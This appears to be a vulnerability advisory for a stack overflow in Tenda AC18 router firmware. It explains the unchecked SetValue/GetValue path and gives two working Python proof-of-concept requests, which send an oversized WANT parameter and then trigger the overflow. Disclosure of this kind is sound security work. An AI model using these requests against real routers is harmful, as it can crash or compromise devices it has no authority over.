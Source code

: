 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/WizardHandle` url. The `nptr` variable receives the `WANT` parameter from a POST request and is stored in the configuration item named``wan1.connecttype` through the SetValue function.To bypass the atoi function, the payload needs to start with the number 0.In order to parse %d as 1, it is also necessary to set the value of the `WANS` parameter to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_165442.png)

`wan1.connecttype`  configuration item can  be retrieved through the GetValue function in the `/goform/getAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_170347.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WizardHandle"
payload = "0"+"a"*1000

data = {"WANT": payload,"WANS":1}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getAdvanceStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)